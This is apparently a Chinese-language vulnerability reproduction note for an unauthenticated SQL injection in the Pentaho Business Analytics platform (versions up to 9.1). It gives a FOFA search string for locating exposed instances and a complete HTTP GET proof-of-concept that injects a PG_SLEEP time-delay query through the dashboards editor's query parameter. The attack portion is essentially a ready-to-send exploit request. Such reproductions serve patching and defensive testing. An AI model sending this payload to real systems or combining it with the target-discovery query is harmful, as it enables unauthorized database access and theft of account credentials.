

# Pentaho业务分析平台 SQL注入漏洞复现

### 0x01 产品简介

  Pentaho Business Analytics是一款使您能够安全地访问、集成、操作、可视化和分析大数据资产的业务分析平台。

### 0x02 漏洞概述

 Pentaho 业务分析平台在/pentaho/api/repos/dashboards/editor路径query参数存在SQL注入漏洞，攻击者可未授权执行任意SQL语句，获取账号密码等敏感信息，进一步接管系统。

### 0x03 影响范围

 Pentaho <= 9.1

### 0x04 复现环境

FOFA：app="Pentaho-用户控制台"



### 0x05 漏洞复现 

PoC

```cobol
GET /pentaho/api/repos/dashboards/editor?command=executeQuery&datasource=pentaho_operations_mart&require-cfg.js&query=%3BSELECT+PG_SLEEP%288%29-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

延时8秒 （PG\_SLEEP(8)）
